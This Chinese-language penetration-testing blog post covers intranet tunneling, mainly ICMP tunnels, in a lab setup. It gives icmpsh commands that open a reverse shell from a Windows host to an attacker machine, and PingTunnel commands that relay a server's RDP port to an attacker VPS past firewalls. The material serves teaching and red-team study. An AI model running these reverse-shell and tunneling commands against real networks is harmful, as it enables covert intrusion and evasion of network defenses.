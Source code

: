 title: 内网穿透
author: bmth
tags:
  - 内网穿透
top_img: 'https://img-blog.csdnimg.cn/20210401111910389.png'
cover: 'https://img-blog.csdnimg.cn/20210401111910389.png'
categories:
  - 内网
date: 2022-11-07 14:18:00
---
## 内网穿透
常用的隧道列举如下：
- 网络层：IPv6隧道、ICMP隧道、GRE隧道
- 传输层：TCP隧道、UDP隧道、常规端口转发
- 应用层：SSH隧道、HTTP隧道、HTTPS隧道、DNS隧道

![](https://img-blog.csdnimg.cn/20210401111910389.png)

### 网络层隧道技术
在一些条件下，如果攻击者使用各类隧道技术（HTTP，DNS，常规正反端口转发等）操作都失败了，常常会通过ping命令访问远程计算机，尝试进行ICMP隧道，将TCP/UDP数据封装到ICMP的ping数据包中，从而穿过防火墙（通常防火墙不会屏蔽ping数据包），实现不受限制的网络访问

#### icmpsh
[https://github.com/inquisb/icmpsh](https://github.com/inquisb/icmpsh)
使用icmpsh需要安装python的impacket类库，以便对于各种协议进行访问，安装Python-impacket库：
```bash
apt-get install python-impacket
```
因为icmpsh工具要代替系统本身的ping命令的应答程序，所以需要输入如下命令来关闭本地系统的ICMP答应（如果要恢复系统答应，则设置为0），否则Shell的运行会不稳定.
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
完成后开启系统ping的话将最后的1改为0即可
使用run.sh报错，换成python运行
```bash
sudo python2 icmpsh_m.py 192.168.111.133 192.168.111.131
```
![](https://img-blog.csdnimg.cn/79c5060eae2746f8b7727e72449d5443.png)
然后在Win7上执行命令：
```bash
icmpsh.exe -t 192.168.111.133
```
![](https://img-blog.csdnimg.cn/466819f7b5b94439826c233d8f9e0a26.png)
成功返回shell
[利用ICMP(icmpsh)协议反弹Shell - 渗透红队笔记](https://jishuin.proginn.com/p/763bfbd2e94d)

#### PingTunnel
[http://freshmeat.sourceforge.net/projects/ptunnel/](http://freshmeat.sourceforge.net/projects/ptunnel/)
进行安装，安装报错见网上的文章：[ICMP隧道之PingTunnel利用](https://www.icode9.com/content-4-856117.html)
查看帮助信息`man pcap`
![](https://img-blog.csdnimg.cn/5d707834b96a4094b9d1ac5421c6bc7d.png)
在web服务器192.168.1.4中执行
```bash
ptunnel -x bmth
```
然后在VPS机器192.168.1.10中执行
```bash
ptunnel -p 192.168.1.4 -lp 1080 -da 1.1.1.10 -dp 3389 -x bmth
```
含义：在访问攻击者VPS(192.168.1.10)的1080端口时，会把数据库服务器1.1.1.10的3389端口的数据封装在ICMP隧道里，以Web服务器192.168.1.4为ICMP隧道跳板进行传送
